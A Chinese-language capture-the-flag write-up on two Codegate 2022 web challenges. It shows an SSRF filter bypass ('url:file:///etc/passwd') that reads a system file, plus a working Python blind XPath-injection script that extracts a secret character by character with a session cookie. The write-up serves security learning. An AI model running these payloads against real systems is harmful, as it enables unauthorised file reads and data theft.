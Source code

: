 # Codegate2022反思

## BabyFirst

核心逻辑在这里

![](img/b1.png)

简单说来，匹配`[]`当中的字符，之后对其访问，是个ssrf但是不能用file开头，这里很明显能想到用其他协议，Java中URLConnection支持的协议可以在`sun.net.www.protocol`看到，支持的有：`file ftp mailto http https jar netdoc gopher`，比如`netdoc:///etc/passwd`，但是这里环境是jdk11，已经删除了`netdoc`

这里解决方法出现在p牛的知识星球--->` url:file:///etc/passwd`

![](img/b2.png)



## myBlog

首先在`DockerFile`文件当中发现flag的输出在一个properties文件夹

![](img/m1.png)

可利用的漏洞点，读文章的这个地方可以有Xpath注入

![](img/m2.png)

后面我搜了下读配置文件函数没搞到就放弃了，现在想起来真的傻，以后不能这样了，直接放exp，注意就是你登录以后发一个帖子内容是`test`，记录下其id我这里是1，然后盲注即可

```java
import requests
from string import ascii_lowercase, digits

SESSION = {'JSESSIONID':'5D31583806832F60CE7133EEEA94EA6E'}
flag = ''

for i in range(34+len('codegate2022')):
    for x in ascii_lowercase+digits+'{}':
        conn = requests.get('http://url/blog/read?idx=1%27%20and%20starts-with(system-property(%27flag%27),%27'+flag+x+'%27)%20and%271%27=%271', cookies=SESSION)
        r1 = conn.text
        if 'test' in r1:
            flag += x
            print(flag)
            break
```

